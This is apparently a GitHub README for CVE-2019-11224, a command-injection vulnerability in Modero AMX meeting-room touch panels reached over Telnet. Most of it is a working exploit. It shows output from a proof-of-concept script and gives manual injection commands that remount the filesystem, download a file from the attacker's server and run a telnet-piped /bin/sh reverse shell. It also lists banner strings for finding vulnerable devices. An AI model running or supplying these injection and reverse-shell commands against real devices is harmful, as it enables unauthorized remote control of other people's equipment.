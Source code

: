 # Modero AMX Code Execution (CVE-2019-11224)
This repo contains a few sources about CVE-2019–11224 (https://link.medium.com/zukA0oCnV8) because I noticed that the link no longer works on the official NIST website. 
Modero AMX devices are essentially touch panel devices for meeting rooms, they can be observed in a lot of different environments and usually have Telnet open. 
Because they emulate a less-than-ideal console using Telnet, there exists a code injection vulnerability through the "ping" function by using command separators.<br><br>
Since orignally creating this GitHub repo and poking on AMX devices, I've created a POC and exploit process to get reverse shells with this vulnerability. Hopefully it brings you joy :} 


# :turtle: Getting Shells with amx_pwn.py
I've written a POC `amx_pwn.py` that should be helpful. Example output below:<br>
```
┌──(cozyfox㉿submarine)-[/CVE-2019-11224]
└─$ python3 amx_pwn.py -t 192.168.0.21 -fs 192.168.0.41 -fn something.jpg -v 1
[!] Your current settings are:
[*] Target: 192.168.0.21
[*] FileServer and Filename URL: http://192.168.0.41/something.jpg
[*] Verbosity: 1
(^_^)7  Continue? (Y/N): y
[*] RUNNING
Telnet(192.168.0.21,23): recv b'\xff\xfb\x01\r\nWelcome to Modero v2.86.50 Copyright (C) AMX '
Telnet(192.168.0.21,23): IAC WILL 1
Telnet(192.168.0.21,23): recv b'LLC 2002-2009\r\n>'
b'\r\nWelcome to Modero v2.86.50 Copyright (C) AMX LLC 2002-2009\r\n>'
Telnet(192.168.0.21,23): send b"ping ;CMD=$'\\x20-o\\x20remount,rw\\x20/'&&mount$CMD\r\n"
Telnet(192.168.0.21,23): recv b'\xff\xfc\x01'
Telnet(192.168.0.21,23): IAC WONT 1
<..cut to remove clutter...>
Telnet(192.168.0.21,23): recv b'\xff\xfc\x01'
Telnet(192.168.0.21,23): IAC WONT 1
taking a snooze
Telnet(192.168.0.21,23): send b"ping ;CMD=$'\\x20http://192.168.0.41/something.jpg'&&wget$CMD\r\n"
taking a snooze
...
```
## Steps to perform this manually can be seen below:
- Remount the file system as R/W:<br>
`ping ;CMD=$'\x20-o\x20remount,rw\x20/'&&mount$CMD`<br>
- Host a file accessible to the device - The contents should be as follows:<br>
  Note: You need two netcat listeners, one will be for input, the other output.<br>
`telnet {YOUR_IP} 1332 | /bin/sh | telnet {YOUR_IP} 1333`<br>
- Download your file - NOTE: This should be an IP and served over HTTP. These devices are old.<br>
`ping ;CMD=$'\x20http://{YOUR_SYSTEM}/{YOUR_FILE}'&&wget$CMD`<br>
- Execute your file and catch shells:<br>
`ping ;CMD=$'\x20{YOUR_FILE}'&&/bin/sh$CMD`

# 👁️ Identifying the Modero AMX Service
Check for Telnet banners (typically port 23) containing:
`Welcome to Modero:` or `Copyright (C) AMX LLC`. Look for versions prior to 2.87.13
